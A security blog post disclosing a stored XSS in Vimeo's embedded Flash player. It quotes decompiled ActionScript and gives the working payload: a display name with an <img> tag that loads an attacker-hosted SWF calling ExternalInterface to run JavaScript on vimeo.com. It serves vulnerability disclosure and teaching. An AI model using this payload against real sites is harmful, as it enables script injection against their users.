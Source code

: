```yaml
---
layout: post
title: "XSSing Flash without user interaction"
---
```

_Just to clarify: the point of this post is to understand why is better to not use `allowscriptaccess` set to `always` when embedding a Flash file in a document, and it's not about XSSing Flash loading a file directly in the browser because in that case the third party files are sandboxed._

Looking for bugs on [Vimeo](https://hackerone.com/vimeo) I found out that they embed the Flash file <https://f.vimeocdn.com/p/flash/hubnut/2.0.12/hubnut.swf> with `allowscriptaccess` set to `always` at this endpoint <https://vimeo.com/hubnut/user/user36690798>. This Flash file is used to show the videos uploaded by the user indicated (_user36690798_ in this case).

If you [look at the source of the endpoint](view-source:https://vimeo.com/hubnut/user/user36690798) you notice that there is a `var config` which contains information about the user, including the name (which appears as the value of `display_name`). This variable is loaded by the Flash file who puts the value of `display_name` in a `TextField()` using the setter `.text` and, because they apply a style sheet to the `TextField()`, the content [is interpreted as HTML](http://help.adobe.com/en_US/FlashPlatform/reference/actionscript/3/flash/text/TextField.html#text) like using `.htmlText`.

An extract of the code of the class _Carousel_ from the file _hubnut.swf_:
{% highlight js %}
...
this.selectedLabel.styleSheet = _loc2_;
...
// Here "display_name" appears as "_loc4_.owner.display_name"
_loc13_ = _loc13_ + (_loc4_.owner.url?"<h2>by <a href=\"//" + this.data.request.vimeo_url + "/" + _loc4_.owner.url_name + "\" target=\"_blank\">" + _loc4_.owner.display_name + "</a></h2>":"<h2>by <strong>" + _loc4_.owner.display_name + "</strong></h2>");
...
this.selectedLabel.text = _loc13_;
...
{% endhighlight %}

Now, the value of `display_name` is being encoded as HTML entities, but it was not the case 2 months ago (I think that they were escaping as JSON, for instance `/` was being escaped as `\/`). So, it was possible to put HTML code but Flash doesn't interpret every HTML tag as valid. Which one is the widely used for this case? `<a>`, yes, but the problem is that you have a limit of 32 characters for your name in Vimeo and for me wasn't enough to make a valid proof of concept. With this scenario I decided to read [which HTML tags are interpreted by Flash](http://help.adobe.com/en_US/FlashPlatform/reference/actionscript/3/flash/text/TextField.html#htmlText) and noticed this about the `<img>` tag:

> src: Specifies the URL to an image or SWF file

Sounds promising! Anyway, at first I thought that maybe Flash loaded the file in a sandbox to disallow execution of Javascript code but I continued the testing. I uploaded a Flash file to my server which executed `ExternalInterface.call("alert(document.domain)");` and changed my name to `<img src="//u00f1.xyz/xss.swf">`. Reloaded <https://vimeo.com/hubnut/user/user36690798> and for my surprise `alert(document.domain)` was executed on **vimeo.com** without user interaction.

After successfully execute Javascript using an `<img>` tag, I went to check if it was possible to do the same but in cases where you can provide the URL of an image that is shown using Flash, and I confirmed that it is possible. What I mean is that if, for example, Vimeo allowed to put any URL as the thumbnail of the video, you could provide an URL to a Flash file of yours with Javascript code and it would probably load the file and execute the Javascript code.

You can test the issue using the `<img>` tag [here](http://esevece.github.io/code/XssImage.html?file=https%3A%2f%2fgithub.com%2fesevece%2fesevece.github.io%2fblob%2fmaster%2fcode%2fxss.swf%3Fraw%3Dtrue&asHtml=true&asObject=false) and the issue when you can provide the URL of an image [here](http://esevece.github.io/code/XssImage.html?file=https%3A%2f%2fgithub.com%2fesevece%2fesevece.github.io%2fblob%2fmaster%2fcode%2fxss.swf%3Fraw%3Dtrue&asHtml=false&asObject=false).
This code is available at <https://github.com/esevece/esevece.github.io/tree/master/code>.  

The report [is publicly disclosed on HackerOne](https://hackerone.com/reports/87577) thanks to Vimeo.
